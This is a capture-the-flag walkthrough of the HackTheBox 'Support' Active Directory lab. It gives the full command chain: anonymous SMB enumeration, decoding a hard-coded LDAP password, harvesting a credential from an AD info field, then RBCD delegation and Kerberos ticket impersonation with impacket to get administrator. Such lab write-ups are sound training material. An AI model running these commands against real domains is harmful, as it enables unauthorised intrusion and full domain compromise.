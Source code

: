 # Enumeration

## Nmap

<img src="Support-media/9cd78971f91ebb0a3be71c272d8980e4f0e0d176.png"
class="wikilink" alt="Pastedimage20250318091145.png" />
windows box, has open 445 indicating smb

list smb shares using smbclient
`smbclient --list=support.htb --no-pass`
<img src="Support-media/05b56fb6833286400e410f25b2b547a7827aef96.png"
class="wikilink" alt="Pastedimage20250318092127.png" />

we've got 6 shares, support-tools looks interesting
trying netexec with 'anonymous' user
`nxc smb support.htb -u 'anonymous' -p '' --shares`

<img src="Support-media/15280a9f69bfd726f1ab5e64483eb7206a8e1517.png"
class="wikilink" alt="Pastedimage20250318093218.png" />
guest has read rights to support-tools (\$IPC is a default for Inter Proces Communication by using RPC (Remote Procedure Call))

## Foothold

looking at support-tools via smb client:
`smbclient //support.htb/support-tools -U anonymous -p ''`

<img src="Support-media/ce1c580e704b7da78342b268c197ffc3f66debd4.png"
class="wikilink" alt="Pastedimage20250318094914.png" />
UserInfo.exe.zip looks interesting, download using smbclient
<img src="Support-media/244d45d468eaed16904ef76f669e3d79e116b1b5.png"
class="wikilink" alt="Pastedimage20250318095038.png" />
Unzip locally gives a bunch of files and a config doc

<figure>
<img src="Support-media/7335916e20b9e11e7857743efcb62dcd051109a2.png"
class="wikilink" alt="Pastedimage20250318095235.png" />
<figcaption
aria-hidden="true">Pastedimage20250318095235.png</figcaption>
</figure>

The config doc is an xml, holding .Unsafe Token
<img src="Support-media/6b9277e683b3d401bed4415aeaca07898e32f558.png"
class="wikilink" alt="Pastedimage20250318095330.png" />
Furthermore, the UserInfo.exe looks interesting - decompile using ghidra and look for passwords..

## Reverse engineering

Its a .NET executable Ghidra does not work
this page has an intro to .NET decompiling
https://medium.com/@tr15t4n/intro-to-net-reverse-engineering-c54823b22d6f

Installed ILspy (see
https://github.com/icsharpcode/ILSpy
https://github.com/icsharpcode/AvaloniaILSpy/releases/tag/v7.2-rc
and
https://youtu.be/FLyrOl0Uy0E?si=3NVWxkagPKbx52a2

Poking around in the UserInfo function:
<img src="Support-media/114faf623eb8652102639086d2cb56264ca671f7.png"
class="wikilink" alt="Pastedimage20250318120750.png" />
Reveals that the function hits an LDAP endpoint as user ldap
<img src="Support-media/ec91434cb4540ee7abd37448a76eee48241c77f6.png"
class="wikilink" alt="Pastedimage20250318123223.png" />
it also reveals an encoded password:
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E
and a sneaky function to encode it

``` c#
internal class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] array = Convert.FromBase64String(enc_password);
        byte[] array2 = array;
        for (int i = 0; i < array.Length; i++)
        {
            array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
        }
        return Encoding.Default.GetString(array2);
    }
}
```

Threw it at chatGPT and got

##### You said:

it uses this function to encode it, what is the output given the input from above? internal class Protected { private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"; private static byte\[\] key = Encoding.ASCII.GetBytes("armando"); public static string getPassword() { byte\[\] array = Convert.FromBase64String(enc_password); byte\[\] array2 = array; for (int i = 0; i \< array.Length; i++) { array2\[i\] = (byte)((uint)(array\[i\] \^ key\[i % key.Length\]) \^ 0xDFu); } return Encoding.Default.GetString(array2); } }

###### ChatGPT said:

The `getPassword` function decodes the Base64-encoded string, then performs a bitwise XOR operation on each byte with a cyclic key (`"armando"`) and an additional XOR with `0xDF`. Let's compute the output.

The output of `getPassword()` given the provided input is:

**`nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`**

We now have a password for the ldap user
Throwing it into netexec:
<img src="Support-media/a3483d67fd26dbb26a9e251494b3c5c8e7edae39.png"
class="wikilink" alt="Pastedimage20250318124035.png" />
reveals a bunch of users

## Privilege Escalation

unleashing bloodhound
`bloodhound-python -d support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'  -ns 10.10.11.174`

### Note, mis-configuration: the info field in AD is used to contain a passwork!

ldapsearch for support@support.htb, looking at the info property
`ldapsearch -H ldap://10.10.11.174 -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*" | grep info`

gives a credential for the 'support user' : Ironside47pleasure40Watchful
<img src="Support-media/14f1e35790a808cbc80a505bb6064df6346896ce.png"
class="wikilink" alt="Pastedimage20250318153355.png" />

Throwing that into netexec
`nxc ldap support.htb -u 'support' -p 'Ironside47pleasure40Watchful'`
<img src="Support-media/563d5895f817afdffe969202a7bc9c920c261b03.png"
class="wikilink" alt="Pastedimage20250318205742.png" />
Yep! it works
\### Poking around
using evil-winrm
`evil-winrm -i support.htb  -u 'support' -p 'Ironside47pleasure40Watchful'`
<img src="Support-media/20619e49b17293ff3355c41ad8c4ff1cdc15171a.png"
class="wikilink" alt="Pastedimage20250318210456.png" />
user flag on supports desktiop
\## Privilege Escalalation

bloodhound
`bloodhound-python -d support.htb -u support -p Ironside47pleasure40Watchful -ns 10.10.11.174 -c All`

<img src="Support-media/73e8416c5ae144fd165dd30c5f6af035465c7b19.png"
class="wikilink" alt="Pastedimage20250318223202.png" />
Giving genericAll on DC.SUPPORT.HTB
<img src="Support-media/d9d2f134a321bb439b092ee55204db52e3fcecaa.png"
class="wikilink" alt="Pastedimage20250318223331.png" />

Generic-all allows us to create a user on the DC.SUPPORT.HTB controller box.
Bloodhound suggests a Resource-Based Constrained Delegation (RBCD) attack

### Step 1 add a fake computer

`impacket-addcomputer -dc-ip support.htb -computer-name badcomputer -computer-pass 'BadPass!' 'support.htb/support:Ironside47pleasure40Watchful'`
Added a badcomputer with password BadPass! (adhere to pw complexity)

Run bloodhound data acquisition again and it shows up..

<figure>
<img src="Support-media/bad1d36881d164f353c8667c590b471ce92e9c72.png"
class="wikilink" alt="Pastedimage20250503133840.png" />
<figcaption
aria-hidden="true">Pastedimage20250503133840.png</figcaption>
</figure>

And we can write to it from the Support user:

<figure>
<img src="Support-media/14d89120dca874888535cb5bc2a4f3653dd8bc14.png"
class="wikilink" alt="Pastedimage20250503134131.png" />
<figcaption
aria-hidden="true">Pastedimage20250503134131.png</figcaption>
</figure>

### Step 2: Delegate badcomputer to DC:

Make it possible for the badcomputer to delegate to the DC.SUPPORT computer, using impacket rbcd script

`impacket-rbcd -delegate-from 'BADCOMPUTER$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'`

<figure>
<img src="Support-media/1e0a32265bfa524e3b3862b1a964121c8fe421d8.png"
class="wikilink" alt="Pastedimage20250503140300.png" />
<figcaption
aria-hidden="true">Pastedimage20250503140300.png</figcaption>
</figure>

### Step 3: Cook up a service ticket

<figure>
<img src="Support-media/9d907742c10b1de53a4379dc88d21503a0417efd.png"
class="wikilink" alt="Pastedimage20250503140456.png" />
<figcaption
aria-hidden="true">Pastedimage20250503140456.png</figcaption>
</figure>

`impacket-getST  -spn 'cifs/DC.SUPPORT.HTB' -impersonate 'administrator' 'support.htb/badcomputer$:BadPass!'`

#### export the ccache

`export KRB5CCNAME=administrator@cifs_DC.SUPPORT.HTB@SUPPORT.HTB.ccache`
MITRE: steal Kerberos tickets stored in credential cache files (or ccache). These files are used for short term storage of a user's active session credentials. The ccache file is created upon user authentication and allows for access to multiple services without the user having to re-enter credentials.
https://attack.mitre.org/techniques/T1558/005/

### Setp 5 Pass the ticket

and pass the ticket using psexec:
`impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb -dc-ip 10.10.11.174`
<img src="Support-media/74ca7a71f82f22a910205201f9a0b41b20d35408.png"
class="wikilink" alt="Pastedimage20250503162601.png" />

Notes!
time must be synced with the box (Kerberos uses timestamp as sort of a nonce in the keys), sync using `ntpdate support.htb`
dc.support.htb must be added to /etc/hosts or else the psexec does not work

flag on the desktop
<img src="Support-media/b7502ce0cb2e60315e9fb0f7824dcb90205bd2e7.png"
class="wikilink" alt="Pastedimage20250503163335.png" />

# Refefrences

## Articles on Rubeus (alternative use here) and Kerberos hacking

https://www.hackingarticles.in/a-detailed-guide-on-rubeus/
Kerberos explainer
https://www.youtube.com/watch?v=5N242XcKAsM

## RBCD Attack

https://n1chr0x.medium.com/kerberos-takedown-unleashing-rubeus-and-impacket-for-active-directory-domination-58eeb7b6b6e3
